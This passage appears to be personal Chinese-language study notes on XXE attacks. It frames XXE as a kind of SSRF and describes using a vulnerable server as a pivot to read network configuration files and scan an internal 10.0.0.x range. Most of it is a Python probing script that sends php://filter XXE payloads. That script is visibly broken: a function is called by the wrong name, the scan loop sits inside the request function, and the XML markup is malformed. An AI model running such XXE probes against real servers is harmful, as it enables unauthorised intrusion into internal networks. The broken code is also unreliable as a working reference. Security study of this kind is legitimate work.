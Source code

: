 > 内部，不能这样直接引用

### 思考

我们刚刚只是做了一件事，就是通过file协议读取本地文件，或者通过http协议发出请求。这就很类似SSRF了，因为他们都是从服务器向另一台服务器发起请求。那么如果我们将远程服务器的地址换成某个内网地址，是否也能实现SSRF？没错，XXE其实也是一种SSRF的攻击手法，因为SSRF知识一种攻击模式，利用这个模式，我们能使用很多协议及漏洞进行攻击。

> 这段还不太懂

### 4.3 HTTP内网主机探测

我们以存在XXE漏洞的服务器作为探测内网的支点。要进行内网探测，我们还需要准备一些工作，需要先利用file协议尝试读取支点服务器的网络配置文件，看下有没有内网，以及网段大概什么样子。可以尝试读取 /etc/network/interfaces 或者 /proc/net/arp 或者 /etc/host ，之后我们就有了大致的探测方向。

探测脚本实例：

```python
import requests
import base64

#Origtional XML that the server accepts
#<xml>
#    <stuff>user</stuff>
#</xml>

#<?xml version="1.0" encoding="ISO-8859-1"?>
#<!DOCTYPE foo [<!ELEMENT foo ANY>]
#<!ENTITY xxe SYSTEM php://filter/convert.base64-encode/resource=http://10.2.2.2/>]>
#	<stuff>&xxe</stuff>
#</xml>
# payload.xml
def build_xml(string):
  xml = """<?xml version="1.0" encoding="ISO-8859-1"?>"""
  xml = xml+"\r\n"+ """<!DOCTYPE foo [<!ELEMENT foo ANY>]"""
  xml = xml+"\r\n"+ """<!ENTITY xxe SYSTEM""" + '"'+string+ '"' + ">]>"
  xml = xml+"\r\n"+ """		<stuff>&xxe</stuff>"""
  xml = xml+"\r\n"+ """</xml>"""
  send_xml(xml)
  
def send(xml):
  headers = {'Content-Type': 'application/xml'}
  x = requests.post('http://ip/xxe.php', data=xml, headers=headers, timeout=5).text
  # # a little split to get only the base64 encoded value
  coded_string = x.split(' ')[-2]
  print(coded_string)
  
  for i in range(1, 255):
    try:
      ip = '10.0.0.'+str(i)
      string = 'php://filter/convert.base64-encode/resource=http://' + ip + '/'
      print(string)
      build_xml(string)
    except:
      continue

```
